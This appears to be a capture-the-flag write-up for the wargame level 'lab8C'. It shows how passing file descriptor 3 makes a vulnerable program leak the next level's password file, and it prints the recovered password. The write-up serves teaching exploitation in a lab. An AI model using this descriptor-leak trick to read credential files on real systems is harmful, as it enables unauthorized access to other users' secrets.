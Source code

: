 # lab8C
> After the first three standard file descriptors, each additional file descriptor will be increased by one.(e.g. 3, 4, 5, etc.). 
> http://www.phearless.org/istorija/razno/fdleak.txt

### Solution
```bash
lab8C@warzone:/levels/lab08$ ./lab8C -fn=/home/lab8B/.pass -fd=3
"<<<For security reasons, your filename has been blocked>>>" is lexicographically equivalent to "3v3ryth1ng_Is_@_F1l3
"


### Description
```
File descriptor: 
```sh
fd = 3
```
bypasses:
```c
if(fd1 == 0 || fd2 == 0)
	{
		printf("Invalid fd argument.\n");
		printf("(We're still fixing some bugs with using STDIN.)\n");
		printf("Usage: %s {-fn=<filename>|-fd=<file_descriptor>} {-fn=<filename>|-fd=<file_descriptor>}\n", argv[0]);
		return EXIT_FAILURE;
	}
```

Duplication:
```sh
lab8C@warzone:/levels/lab08$ echo 'ABCDE_123' > /var/tmp/abc2.txt && ./lab8C -fn=/var/tmp/abc2.txt -fd=3
"ABCDE_123
" is lexicographically equivalent to "ABCDE_123
"
```